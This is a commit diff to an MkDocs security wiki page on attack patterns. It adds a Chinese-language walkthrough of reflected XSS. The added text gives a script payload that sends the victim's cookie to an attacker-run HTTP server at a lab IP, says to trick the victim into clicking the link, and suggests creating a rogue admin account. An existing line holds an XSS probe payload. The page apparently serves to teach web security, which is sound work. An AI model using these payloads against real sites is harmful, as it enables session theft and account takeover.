

Before and after one commit to islibra/wiki, an MkDocs documentation site: the page built from docs/security/attack_pattern.md, in a window 1280 px wide and 900 px high, scrolled down 455 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update attack_pattern.md

```diff
--- a/docs/security/attack_pattern.md
+++ b/docs/security/attack_pattern.md
@@ -18,6 +18,23 @@
 
 
 ## XSS
+
+### 受害场景
+
+XSRF, 以受害者的身份发送请求, **如果受害者是管理员, 可利用创建一个新的管理员帐号供攻击者使用**
+
+#### 反射型
+
+1. 攻击者启动一个http服务器：`python -m SimpleHTTPServer 88`
+1. 攻击者构造超链接, 请求 {==URL参数==} 中注入XSS脚本, 如: `http://xxx.com/xxx.action?provider=wiseus&{==query=<script>document.write('<img src="http://192.168.56.10:88/'+document.cookie+'">');</script>==}&device=mobile&ssid=0&from=844b&uid=0`
+1. **诱骗受害者点击该链接**
+1. XSS脚本读取Cookies中的SESSIONID(**未设置httponly**), 并将其发送给攻击者
+
+#### 存储型
+
+#### DOM型
+
+---
 
 1. 尝试使用`xss"><img src=x onerror=alert(3)>`
 
```
